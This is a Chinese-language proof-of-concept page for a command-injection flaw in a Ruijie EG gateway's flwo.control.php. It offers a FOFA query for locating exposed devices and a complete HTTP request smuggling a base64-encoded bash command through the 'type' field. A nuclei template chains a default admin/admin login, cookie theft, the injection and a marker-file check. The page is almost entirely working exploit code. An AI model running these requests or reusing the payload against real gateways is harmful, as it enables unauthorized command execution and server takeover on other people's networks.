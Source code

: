 ## 锐捷网络flwo.control.php存在RCE漏洞

锐捷EG易网关存在flwo.control.php命令执行漏洞，攻击者可利用该漏洞执行任意命令，写入后门，获取服务器权限，进而控制整个web服务器。 前提需要登录获取cookie


## fofa
```
title="锐捷网络-EWEB网管系统"
```

## poc
```
POST /flow_control_pi/flwo.control.php?a=flowOpen HTTP/1.1
Host: localhost:4430
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 11
Accept: */*
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: user=21232f297a57a5a743894a0e4a801fc3; LOCAL_LANG_COOKIE=zh; UI_LOCAL_COOKIE=zh; sysmode=sys-mode%20gateway; supportMoreLan=no; RUIJIEID=h250c4c46emk9dv2mjmbk5rlc0; user=21232f297a57a5a743894a0e4a801fc3; isRedirect=true; authenType=local; accountType=write; showPatchDialog=true; module=macc; threeModule=seltab
Origin: https:// localhost:4430
Referer: https:// localhost:4430/rac_pi/surfilter_selservice.htm
Sec-Ch-Ua: " Not;A Brand";v="99", "Google Chrome";v="91", "Chromium";v="91"
Sec-Ch-Ua-Mobile: ?0
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
X-Forwarded-For: x
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip

type=%7Cbash+-c+%27echo+cm0gLXJmIC4uLzEyMzMyMXF3ZS50eHQgJiYgZWNobyBGMDhiYmZiMkJDOGNlZUQ2ID4gLi4vMTIzMzIxcXdlLnR4dCAyPiYx+%7C+base64+-d+%7C+bash+%26%26+exit+0%27
```
![image](https://github.com/wy876/POC/assets/139549762/a4710fcd-de46-4774-8c69-de8f5a74dcb2)

把管理员cookie填进去，然后写入文件

![c534bc92b717fb16aafc3f62f07e90b1](https://github.com/wy876/POC/assets/139549762/2c93d83a-6e44-4198-b973-271829bca4fa)

文件路径`http://127.0.0.1/123321qwe.txt`


## yaml
```
http:
  - raw:
	  - |              
		POST /ddi/server/login.php HTTP/1.1
		Host: 
		Content-Type: application/x-www-form-urlencoded
		User-Agent: Mozilla/5.0 

		username=admin&password=admin?
	  - |              
		POST /flow_control_pi/flwo.control.php?a=getFlowGroup HTTP/1.1
		Host: 
		Content-Type: application/x-www-form-urlencoded
		Cookie: RUIJIEID={{cookie}};user=admin;
		User-Agent: Mozilla/5.0 

		type=%7Cbash+-c+%27echo+cm0gLXJmIC4uLzEyMzMyMXF3ZS50eHQgJiYgZWNobyBGMDhiYmZiMkJDOGNlZUQ2ID4gLi4vMTIzMzIxcXdlLnR4dCAyPiYx+%7C+base64+-d+%7C+bash+%26%26+exit+0%27

	  - |              
		GET /123321qwe.txt HTTP/1.1
		Host: 
		User-Agent: Mozilla/5.0      

	extractors:
	  - type: regex
		name: cookie
		part: header
		group: 1
		internal: true
		regex:
		  - "RUIJIEID=(.*); path=/"

	matchers-condition: and
	matchers:
	  - type: dsl
		dsl:
		  - 'status_code_3==200 && contains(body_3, "F08bbfb2BC8ceeD6") && contains(body_3, "text/plain")'

```
